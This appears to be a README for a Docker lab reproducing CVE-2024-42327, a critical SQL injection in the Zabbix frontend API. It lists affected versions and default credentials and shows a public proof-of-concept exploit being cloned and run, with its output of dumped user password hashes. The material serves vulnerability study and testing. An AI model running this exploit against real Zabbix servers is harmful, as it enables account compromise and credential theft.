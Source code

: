 # Title
A non-admin user account on the Zabbix frontend with the default User role, or with any other role that gives API access can exploit this vulnerability. An SQLi exists in the CUser class in the addRelatedObjects function, this function is being called from the CUser.get function which is available for every user who has API access.

Vulnerable versions:
6.0.0–6.0.31, 6.4.0–6.4.16 and 7.0.0.

## Metrics
CVSSv2: N\A   
CVSSv3: 9.9 (Critical)

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Find Zabbix Web IP:
```bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' zabbix-web-nginx-mysql
```
Default login/password:
`Admin:zabbix`

Stop Environment and remove network
```bash
docker compose down
docker network rm zabbix-cve-2024-42327-net
```

## Detection and exploitation example
### PoC Exlpoitation:
```bash
git clone https://github.com/aramosf/cve-2024-42327.git
```
```bash
python3 cve-2024-42327.py -u "http://172.90.240.4:8080/api_jsonrpc.php" -n Admin -p zabbix

Valid session token: 5dcee00f604a687c10161863d349784e
Admin, Zabbix, Administrator, 1, $2y$10$92nDno4n0Zm7Ej7Jfsz8WukBfgSS/U0QkIuu8WkJPihXBb2A1UrEK
guest, , , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06
```

## Exploits and PoCs
https://github.com/aramosf/cve-2024-42327

## Nuclei Template

## CTF Rooms

## References
[SecurityOnline.info: PoC Exploit Releases for Critical Zabbix Vulnerability – CVE-2024-42327](https://securityonline.info/poc-exploit-releases-for-critical-zabbix-vulnerability-cve-2024-42327/)   
[NIST: CVE-2024-42327](https://nvd.nist.gov/vuln/detail/CVE-2024-42327)   
[Github: zabbix-docker](https://github.com/zabbix/zabbix-docker/)   
[Docker Hub: zabbix](https://hub.docker.com/u/zabbix)   
[Zabbix Documentation: Installation from containers](https://www.zabbix.com/documentation/current/en/manual/installation/containers)   
